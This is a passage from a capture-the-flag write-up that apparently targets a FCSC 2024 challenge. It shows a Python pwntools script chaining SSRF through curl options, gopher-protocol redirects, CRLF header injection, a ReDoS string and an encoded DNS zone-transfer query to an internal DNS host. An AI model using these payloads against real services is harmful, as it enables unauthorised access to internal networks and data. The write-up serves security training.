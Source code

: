 In this way, curl will perform the following query:
```
GET gopher://<..payload..> HTTP/1.1\r
X-foo: / HTTP/1.1\r
...
```
By passing a header name and line feed, anything following the legitimate request method will be interpreted as a header value and form a valid request.

## Pooling:

We can now complete the exploitation!
Here's the script:
```python
from pwn import *
from urllib.parse import quote_plus as urlenc

context.log_level = 'critical'

redos = urlenc('?a='+'.'.join('voz.ec' for _ in range(30)))

def nice_print(data):
	print(str(data.strip()).replace('\\r\\n', '\n')[2:-1])

def ssrf(where, options):
	io = remote('localhost', 8000, ssl=False)
	payload =f'''
/?game=localhost{redos}%26game%3d{where}{options}%26b%3D
'''[1:-1]
	io.send(f'''
GET {payload} HTTP/1.1\r
Host: localhost:8000\r
Connection: close\r
Upgrade-Insecure-Requests: 1\r
\r
\r
'''[1:-1].encode())

	result = io.recvall(timeout=30)
	nice_print(result)


axfr = "%004n%DB%00%20%00%01%00%00%00%00%00%01%08fcsc2024%02fr%00%00%FC%00%01%00%00%29%04%D0%00%00%00%00%00%0C%00%0A%00%08I%B8%29%3C05P%8A"

payload = f'''
gopher://pong-internal-dns:53/_{axfr}#/../../../../public/js
'''[1:-1]


mapping = {
	'CURLOPT_FOLLOWLOCATION': '52',
	'CURLOPT_CUSTOMREQUEST': '10036',
	'CURLOPT_REDIR_PROTOCOLS': '182',
	'CURLPROTO_GOPHER': '33554432',
}

options = '&'.join([
	'',
	'options[CURLOPT_FOLLOWLOCATION]=1',
	'options[CURLOPT_REDIR_PROTOCOLS]=CURLPROTO_GOPHER',
	'options[CURLOPT_CUSTOMREQUEST]='+urlenc(f'GET {payload} HTTP/1.1\r\nX-foo:'),
])

```

[//]: <> (Wrote By Vozec 12/04/2024)